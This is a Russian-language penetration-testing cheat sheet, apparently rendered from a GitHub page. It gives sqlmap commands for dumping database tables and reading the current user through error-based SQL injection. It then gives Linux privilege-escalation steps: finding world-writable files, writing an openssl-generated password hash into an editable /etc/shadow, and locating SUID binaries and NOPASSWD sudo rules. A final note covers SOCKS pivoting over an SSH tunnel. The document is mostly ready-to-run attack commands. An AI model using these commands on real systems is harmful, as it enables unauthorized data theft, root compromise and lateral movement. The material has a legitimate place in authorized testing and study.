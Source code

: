 ### Дамп таблицы:
```bash
sqlmap -r request.txt -p vulnerableParam --technique=E -D DBNAME -T TABLENAME --dump
```

### Текущий пользователь:
```bash
sqlmap -r request.txt -p vulnerableParam --technique=E --current-user
```
___
___
# 🧱 Linux Privilege Escalation

## 📄 File Permissions
```bash
find / -not -type l -perm -o+w
```
🔍 Ищет файлы с правами на запись для всех пользователей.

### Если /etc/shadow доступен для редактирования:
```bash
openssl passwd -1 -salt abc mypassword
# Результат вставить в /etc/shadow с помощью nano:
nano /etc/shadow
```

---

## 🔓 SUID Бинарники
```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
🔍 Ищет бинарники с SUID-битом (исполняются от имени владельца, часто root).

---

## 🔑 Проверка sudo на NOPASSWD
```bash
sudo -l
```
📌 Ищи `(root) NOPASSWD:` — можно выполнять команды без пароля.
___
___
# 🔀 Linux Lateral Movement & Pivoting

## 🧩 Pivoting via SSH Tunneling
```bash
ssh user@TARGETIP -D 9050
```
- `9050` — порт для SOCKS4 proxychains (см. `/etc/proxychains.conf`)
- `TARGETIP` — IP-адрес промежуточной (pivot) машины, а не конечной цели

---